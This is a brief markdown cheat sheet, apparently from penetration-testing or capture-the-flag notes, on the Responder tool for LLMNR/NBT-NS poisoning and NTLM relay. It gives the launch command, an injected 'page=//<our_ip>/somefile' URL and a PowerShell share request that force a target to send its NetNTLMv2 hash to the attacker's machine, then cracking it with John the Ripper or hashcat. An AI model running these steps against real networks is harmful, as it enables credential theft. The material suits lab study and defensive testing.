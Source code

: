 # Responder

## Overview

IPv6/IPv4 LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay.

https://github.com/lgandx/Responder


## SMB NTLMv1/v2 Relay

When the target machine attempts to perform the NTLM authentication to that server, Responder
sends a challenge back for the server to encrypt with the user's password. When the server responds,
Responder will use the challenge and the encrypted response to generate the NetNTLMv2. While we can't
reverse the NetNTLMv2, we can try many different common passwords to see if any generate the same
challenge-response, and if we find one, we know that is the password. This is often referred to as hash
cracking, which we'll do with a program called John The Ripper.

Check in the Responder.conf file that the flag for SMB is ON.
Then run Responder with

	sudo python3 Responder.py -I <interface_name> (or sudo responder -I <interface_name>)

Now that the Responder server is listening, we make a request for a nonexistent file in our local machine so that Responder can get the NTLVM hash/challenge

	http:\\<target_ip>/?page=//<our_ip>/somefile

	or

	gci \\<local_ip>\share\somefile #from powershell

You should see the hash printed on Responder. Save the hash to a file and crack it with a tool like johntheripper or hashcat
## Installation

	git clone https://github.com/lgandx/Responder
	Default installation path (in Kali):  /usr/share/responder/

## Command Options

	-I <interface_name> : Sets which interface to linsten/use
	-A:	Analyse mode. Sees requests but doesnt respond.
